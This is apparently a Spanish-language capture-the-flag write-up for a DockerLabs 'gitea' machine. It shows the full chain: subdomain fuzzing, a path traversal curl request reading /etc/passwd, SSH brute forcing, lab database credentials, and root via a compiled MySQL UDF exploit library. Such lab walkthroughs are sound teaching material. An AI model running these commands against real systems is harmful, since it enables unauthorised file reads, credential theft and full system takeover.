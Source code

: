 nmap: 22, 80, 3000

![image](https://github.com/user-attachments/assets/19f5d5f2-4a90-4310-bbd4-14c4d074484e)

---

nos vamos a la pagina del puerto 80 y 3000

![image](https://github.com/user-attachments/assets/283cdfa3-b5ec-4a3c-991f-3de987903851)

![image](https://github.com/user-attachments/assets/cac418c6-5aa8-469d-b685-ca99582d7e5c)

en la pagina no hay mucho mas que información y en la pagina del puerto 3000 hay una versión pero no hay exploit de esa versión, solo de la 1.22.4 que es la versión anterior.
en el código fuente hay unos puntos importantes

![image](https://github.com/user-attachments/assets/ce7b0baa-b7cc-4ba5-bb70-d78531b01a98)

primero un URL que si la ingresamos a hosts nos enviara otra vez a la pagina del puerto 3000, y abajo hay un  "csrftoken"  con un código, pero la verdad que el código da unos números pero probablemente hay un login. 
ahora probando otra vez con la URL que encontramos en el código fuente la vamos modificando, entonces ingresamos un "gitea.dl" y veremos que tenemos un login

![image](https://github.com/user-attachments/assets/43f97f17-701f-4f35-bda2-c011ac2f4b13)

como vemos en los login da algunas credenciales pero no funcionan pero por si acaso la vamos a guardar. 

     admin@gitea.com 
    PassAdmin123-

ahora haremos un FFUF

     ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://gitea.dl -H "Host: FUZZ.gitea.dl" -fs 13615 

![image](https://github.com/user-attachments/assets/2e7dbd84-4137-443e-a09d-0ee7009e42f5)

nos da "dev" lo agregamos al hosts y nos da esta pagina

![image](https://github.com/user-attachments/assets/05956581-0749-4020-8a5f-b92ce366fd05)

como no tenemos mucho hacemos un gobuster para descubrir mas si es que tiene mas

     gobuster dir -u http://dev.gitea.dl/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64


![[dockerlabs/medio/gitea/test8.png]]

nos dio uno llamativo que es "search" 

![[dockerlabs/medio/gitea/test9.png]]

probamos pero no da nada y como vimos al principio en el código fuente da una URL que contiene este usuario creo yo, lo añadimos al hosts

![[dockerlabs/medio/gitea/test10.png]]

obtenemos esta pagina pero al final de la pagina da un nombre que podría ser un usuario, pero no tiene muchas cosas mas, así que le seguimos buscando y haciendo otro FFUF

![[dockerlabs/medio/gitea/test11.png]]

    ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://s3cr3tdir.dev.gitea.dl -H "Host: FUZZ.s3cr3tdir.dev.gitea.dl" -fs 13615 

ahora hacemos lo mismo pero agregamos el "s3cr3tdir"

![[dockerlabs/medio/gitea/test12.png]]

y como vemos tenemos lo mismo que vimos en el primer codigo que es el URL exactamente igual. 

![[dockerlabs/medio/gitea/test13.png]]

pero nos vamos a logear ahora para ver que hay. 

![[dockerlabs/medio/gitea/test14.png]]

nos iremos a explore y veremos esos 3 repositorios  y el que contiene un código es el 
myapp >> app.py

![[dockerlabs/medio/gitea/test15.png]]

y en esta linea tiene una vulnerabilidad

![[dockerlabs/medio/gitea/test16.png]]

a esa vulnerabilidad se le puede realizar un "path traversal" en la pagina principal o sea gitea.dl, así que podemos descargar archivos con esa vulnerabilidad o lograr visualizar 

lanzamos 

     curl "http://gitea.dl/download?filename=../../../../../etc/passwd"

![[dockerlabs/medio/gitea/test17.png]]

y vemos que nos entrega la información que esperamos, buscamos en los otros archivos otras funciones o códigos y encontramos esto

![[dockerlabs/medio/gitea/test18.png]]

probamos lo mismo pero con el código de info.txt

![[dockerlabs/medio/gitea/test19.png]]

nos da un error así que probamos, pero nos dice que hay un archivo de la información en /opt así que probamos suerte

![[dockerlabs/medio/gitea/test20.png]]

se logra la magia y tenemos usuarios y contraseñas como textos. pero no creo que esos son los usuarios reales, así que vamos hacer un ataque de fuerza bruta. 

creamos una carpeta con las contraseñas y hacemos una fuerza bruta con el usuario "designer" que es el usuario del git donde están los códigos. 

![[dockerlabs/medio/gitea/test21.png]]

obtenemos la contraseña de "ssh"

![[dockerlabs/medio/gitea/test22.png]]

ingresamos con las credenciales y tenemos la flag de user

     4683f3b0c2f083bb9588370c0f8ab284

![[dockerlabs/medio/gitea/test23.png]]

como se ve tenemos un puerto abierto de forma local "127.0.0.1:3306"  y 3306 funciona con mysql y tenemos credenciales de un login así que probamos entrar a la base de datos con las credenciales que nos dio el login

      admin@gitea.com 
    PassAdmin123-

     mysql -u admin -pPassAdmin123-


![[dockerlabs/medio/gitea/test24.png]]

tenemos acceso a la base de datos, vamos a realizar esta escalada: https://docs.databricks.com/gcp/en/udf/ (User-Defined Functions) UDF  lo que es pocas palabras

     técnica para escalar privilegios que consiste en cargar una librería compartida maliciosa con el fin de ejecutar código externo y definido por nosotros a nivel de sistema

entonces comenzamos con

    SHOW VARIABLES LIKE '%plugin_dir%';

![[dockerlabs/medio/gitea/test25.png]]

     SHOW VARIABLES LIKE '%secure_file_priv%';

![[dockerlabs/medio/gitea/test26.png]]

![[dockerlabs/medio/gitea/test27.png]]

ahora buscamos una vulnerabilidad o exploit basado en este ataque 

![[dockerlabs/medio/gitea/test28.png]]

nos sirve el primero así que lo tomamos

![[dockerlabs/medio/gitea/test29.png]]

dentro de se exploit contiene un código que intenta cargar códigos o archivos en "system()" así que vamos a pasarlo a la maquina victima

![[dockerlabs/medio/gitea/test30.png]]

ahora lanzamos estos comandos

    gcc -g -c 1518.c
      gcc -g -shared -Wl,-soname,exploit_udf.so -o exploit_udf.so 1518.o -lc

![[dockerlabs/medio/gitea/test31.png]]

tendremos los 3 documentos ahora movemos el exploit a plugins para que la cargue

     mv exploit_udf.so /usr/lib/mysql/plugin/

ahora nos vamos a la base de datos y nos conectamos creamos la función que haga referencia a la librería que agregamos o sea el exploit 

    CREATE FUNCTION do_system RETURNS STRING SONAME 'exploit_udf.so';

![[dockerlabs/medio/gitea/test32.png]]

entonces el exploit cargado podemos ejecutar comando a nivel sistema, podemos por ejemplo cargar una reverse shell hacia nuestro puerto para conectarnos directo a root 

![[dockerlabs/medio/gitea/root.png]]

somos root! 
